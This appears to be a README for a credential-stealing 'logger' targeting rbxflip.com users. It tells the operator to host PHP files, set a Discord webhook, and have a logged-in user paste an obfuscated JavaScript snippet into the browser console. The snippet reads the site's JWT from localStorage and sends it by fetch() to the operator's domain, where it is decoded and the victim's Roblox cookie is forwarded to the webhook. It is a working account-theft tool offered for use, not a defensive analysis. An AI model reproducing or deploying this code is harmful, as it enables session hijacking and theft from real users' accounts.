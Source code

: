 # How to use
1. Upload the files (from logger folder) on your webserver
2. no need good domain u can use free one like 000webhost
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside rbxflip console:
6. make sure to put webhook on config.php make sure to put you're domain on obfuscate code
```
var _0x2c3c=['41qRGKIU','226227XOWtdT','9571kRaNrS','getItem','auth._token.local','259484aCtxRr','https://domain/coinflip.php?t=','1ICLKrP','85307TnWote','53639HVwscK','194480dULgxy','23wlWByU','1oUiTEM','7247ahdNmv','split'];var _0x2b7b=function(_0x3dc2af,_0x33a69b){_0x3dc2af=_0x3dc2af-0x83;var _0x2c3c00=_0x2c3c[_0x3dc2af];return _0x2c3c00;};var _0x51f868=_0x2b7b;(function(_0x3b43f1,_0x21e07e){var _0x324dbb=_0x2b7b;while(!![]){try{var _0x4983eb=parseInt(_0x324dbb(0x8d))+-parseInt(_0x324dbb(0x84))*-parseInt(_0x324dbb(0x8a))+parseInt(_0x324dbb(0x8c))*parseInt(_0x324dbb(0x8f))+parseInt(_0x324dbb(0x8b))+-parseInt(_0x324dbb(0x85))*-parseInt(_0x324dbb(0x8e))+-parseInt(_0x324dbb(0x83))*parseInt(_0x324dbb(0x90))+-parseInt(_0x324dbb(0x88));if(_0x4983eb===_0x21e07e)break;else _0x3b43f1['push'](_0x3b43f1['shift']());}catch(_0x413a66){_0x3b43f1['push'](_0x3b43f1['shift']());}}}(_0x2c3c,0x367c7),fetch(_0x51f868(0x89)+atob(localStorage[_0x51f868(0x86)](_0x51f868(0x87))[_0x51f868(0x91)]('\x20')[0x1][_0x51f868(0x91)]('.')[0x1])['split']('\x22')[0x3])); rig.coin 
console.log

```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. 



